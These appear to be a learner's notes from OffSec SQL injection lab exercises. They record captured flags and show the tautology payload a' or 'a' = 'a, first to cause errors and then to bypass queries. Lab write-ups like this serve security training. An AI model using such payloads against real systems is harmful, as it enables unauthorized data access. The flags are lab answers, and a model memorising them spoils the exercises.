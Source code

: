 makes it error as well - got the strings from the `offsec` video
```sql
a' or 'a' = 'a'
```
![[Pasted image 20240817002230.png]]
Displays the flag, due to the `strings` as well as correct amount of `'` single quotes being inserted
```sql
a' or 'a' = 'a
```
![[Pasted image 20240817002537.png]]

2. `OS{476C93C0A2466BD36924F96146378C8E}`
![[Pasted image 20240817004213.png]]
Testing bad parameters with sql below - `POSTGRES` is very similar if not exact to `MYSQL`
```sql
a' or 'a' = 'a'
```
![[Pasted image 20240817003611.png]]
Take away the extra `'` for the flag
```sql
a' or 'a' = 'a
```
![[Pasted image 20240817004125.png]]

3. `OS{91F35A8367B5A95A9AD223491BC4801D}`
![[Pasted image 20240817005038.png]]
error with to identify where the vulnerable parameter is
```sql
a' or 'a' = 'a'
```
![[Pasted image 20240817004905.png]]
take away the extra `'` and get the flag
```sql
a' or 'a' = 'a
```
![[Pasted image 20240817004839.png]]
4. `OS{EB18CFA47DAF5C2A6487AC692B6FFCB9}`
![[Pasted image 20240817005642.png]]
error with to identify where the vulnerable parameter is
```sql
a' or 'a' = 'a'
```
![[Pasted image 20240817005216.png]]
take away the extra `'` and get the flag
```sql
a' or 'a' = 'a
```
![[Pasted image 20240817005451.png]]
